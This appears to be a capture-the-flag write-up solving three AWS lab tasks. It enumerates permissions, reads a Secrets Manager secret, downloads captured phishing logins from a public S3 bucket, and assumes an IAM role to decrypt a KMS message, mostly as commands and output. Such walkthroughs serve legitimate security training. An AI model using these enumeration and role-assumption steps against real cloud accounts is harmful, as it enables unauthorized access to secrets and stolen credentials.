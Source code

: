 ## Task 34:
### Configure aws cli login

+ Use `aws configure` with the Access Key, Secret Access Key and Region to login.

### Find out our username and id

`aws sts get-caller-identity` returns

```
{
    "UserId": "AIDAU2VYTBGYFN7UYYE5T",
    "Account": "332173347248",
    "Arn": "arn:aws:iam::332173347248:user/user0"
}
```

### Finding Service with permission

+ Now we are trying to get an output from different AWS Services by just using simple operations like listing stuff to see where we are successfull:
`aws s3 ls` -> AccessDenied
`aws ec2 describe-instances` -> AccessDenied
`aws secretsmanager list-secrets` -> Resoponse
```
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-west-2:332173347248:secret:secret-flag-Im0H0Z",
            "Name": "secret-flag",
            "LastChangedDate": "2025-03-17T08:15:42.026000+01:00",
            "LastAccessedDate": "2025-03-18T01:00:00+01:00",
            "Tags": [],
            "SecretVersionsToStages": {
                "a007a97d-73c7-430d-879f-e9cc72013f6a": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2025-03-17T08:15:41.704000+01:00"
        }
    ]
}
```

### Retrieving the flag

+ Looks like there is a secret we have access to.
+ We can view it using `aws secretsmanager get-secret-value --secret-id secret-flag` which returns the flag.
```
{
    "ARN": "arn:aws:secretsmanager:us-west-2:332173347248:secret:secret-flag-Im0H0Z",
    "Name": "secret-flag",
    "VersionId": "a007a97d-73c7-430d-879f-e9cc72013f6a",
    "SecretString": "{\"flag\":\"THM{for_your_eyes_only}\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-03-17T08:15:42.022000+01:00"
}
```

## Task 35:
### Checking the webpage

`http://darkinjector-phish.s3-website-us-west-2.amazonaws.com`
+ Is just an ordinary login page. But the important part is, that it is hosted on a AWS S3 Service, which is a storage service where you can also run static webpages off.

### Getting access to the storage bucket

+ Let's check if we can list the stuff thats in this s3 bucket by using `aws s3 ls s3://darkinjector-phish --region us-west-2`

+ Easy. We got an output:
```
2025-03-17 07:46:17        132 captured-logins-093582390
2025-03-17 07:25:33       2300 index.html
```

### Downloading the files

+ We can just copy those files to our local machine by using `aws s3 sync s3://darkinjector-phish/ ./local-dir --region us-west-2`

### Getting the flag

+ Now we just check the insights of the `captured-logins` file. It is a CSV containing the flag:

```
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,THM{this_is_not_what_i_meant_by_public}
```

## Task 36:
### Configure aws cli login

+ Use `aws configure` with the Access Key, Secret Access Key and Region to login.

### Find out our username and id

`aws sts get-caller-identity` returns

```
{
    "UserId": "AIDAU2VYTBGYOJ7ASKCAP",
    "Account": "332173347248",
    "Arn": "arn:aws:iam::332173347248:user/user1"
}
```

### Getting the file

+ We can use `aws s3 ls s3://secret-messages --region us-west-2` to list and `aws s3 cp s3://secret-messages/20250301.msg.enc . --region us-west-2` to download the file mentioned in the task.

### Inspecting the file

+ The file holds JSON data for a Ciphertext and some KeyId storage in AWS KMS (some kind of key management system).
But our user does not have access to the KMS to decrypt the message.

### Finding access

+ Let's check for configured roles with `aws iam list-roles`.
+ We find one role where our user1 is listed under the principals:
```
{
            "Path": "/",
            "RoleName": "crypto-master",
            "RoleId": "AROAU2VYTBGYKCB3S25MX",
            "Arn": "arn:aws:iam::332173347248:role/crypto-master",
            "CreateDate": "2025-03-17T08:40:18+00:00",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Sid": "Statement1",
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "arn:aws:iam::332173347248:user/user1"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            }
}
```

+ We can assume the role with `aws sts assume-role --role-arn arn:aws:iam::332173347248:role/crypto-master --role-session-name decrypt-session`

+ Nice. It is valid, so it returns some temporary credentials:
```
{
    "Credentials": {
        "AccessKeyId": "AKIAIOSFODNN7EXAMPLE",
        "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
        "SessionToken": "FQoGZXIvYXdz...",
        "Expiration": "2025-03-18T15:00:00Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAU2VYTBGYKCB3S25MX:decrypt-session",
        "Arn": "arn:aws:iam::332173347248:role/crypto-master"
    }
}
```

+ We can export the credentials
```
export AWS_ACCESS_KEY_ID="AKIAIOSFODNN7EXAMPLE"
export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"
export AWS_SESSION_TOKEN="FQoGZXIvYXdz..."
```

and confirm the switch with `aws sts get-caller-identity`
```
{
    "UserId": "AROAU2VYTBGYKCB3S25MX:decrypt-session",
    "Account": "332173347248",
    "Arn": "arn:aws:sts::332173347248:assumed-role/crypto-master/decrypt-session"
}
```
--> We are crypto-master now.

### Decrypt the message and get the flag

+ Now with the crypto-master role we have access to the KMS and can decrypt the message
`aws kms decrypt --ciphertext-blob fileb://encrypted_blob.bin --key-id arn:aws:kms:us-west-2:332173347248:key/b7a
11be8-2a95-429e-978c-36a18a0d3e81 --region us-west-2 --query Plaintext --output text | base64 --decode`

+ Which returns:
```
To Cipher,

I trust this letter finds you in the usual manner — lurking in the shadows, plotting your next grand scheme. Though we are well aware of your notorious abilities, it seems there is still much potential for even greater power at your fingertips.

I am writing to you, Cipher, not only to acknowledge your skills but to propose an alliance of sorts. Your penchant for manipulation of digital systems and mine for delving into the very fabric of reality itself could culminate in a masterpiece of absolute control.

I have discovered the key to hacking time itself — a process far beyond the scope of mere algorithms. The foundation lies in manipulating the quantum fabric and exploiting the synchronization of universal chronal waves. Once we control this frequency, we can write our own timeline.

THM{crypto_cloud_conundrum}
```
